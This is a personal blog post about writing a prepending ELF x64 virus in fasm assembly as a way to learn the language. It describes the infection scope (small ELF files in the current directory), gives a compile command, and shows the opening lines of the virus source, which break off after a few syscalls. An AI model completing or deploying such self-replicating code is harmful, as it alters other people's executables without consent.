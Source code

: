 +++
title = 'ELF x64 Virus in fasm assembly'
date = 2022-10-16T12:47:18+02:00
tags = ["assembly", "viruses"]
url = 'posts/elf-x64-virus-fasm'
+++

Recently, I was playing around with [flat assembler](https://flatassembler.net/) and i needed something to
write in it. I tried ["Hello world" program](https://en.wikipedia.org/wiki/%22Hello,_World!%22_program) but it was not
enough. I believe that generally "Hello world" programs are not a good way to learn about details of a programming 
language, especially for somewhat experienced programmers.

So I wrote a virus to familiarize myself to it. Because it is compact and has a everything from condition 
control flows to loop constructs, not just printing out in standard output and it only took me couple of hours to write it. 

The virus is a harmless prepending virus which copies itself to the top of the infected program and infected program does 
absolutley nothing harmful except printing a message that it is infected.
The virus only infects [ELF](https://en.wikipedia.org/wiki/Executable_and_Linkable_Format) 
files which are present in current directory (not subdirectories) and smaller than 4KB in size to prevent any potential misuse.

      

**CODE: virus.asm**
```nasm
; Written by Furqan
;
; The virus can be assembled with only Fasm.x64 and
; make sure to append virus signature
; compilation:
;   fasm.x64 virus.asm && printf "\x7e\x49\x4e\x46\x7e" >> virus
;

format ELF64 executable 3

segment readable executable
@@:
    sub rsp, 2000

    mov rax, 0x2
    mov rdi, [rsp+2008]
    xor rsi, rsi
    xor rdx, rdx
    syscall

    mov r9, rax

    mov rax, 0x0
    mov rdi, r9
    mov rsi, self
    mov rdx, self_size
    syscall

    mov rax, 0x8
    mov rdi, r9
    mov rsi, vsignl
    mov rdx, 0x1
    syscall

    mov rax, 0x0
```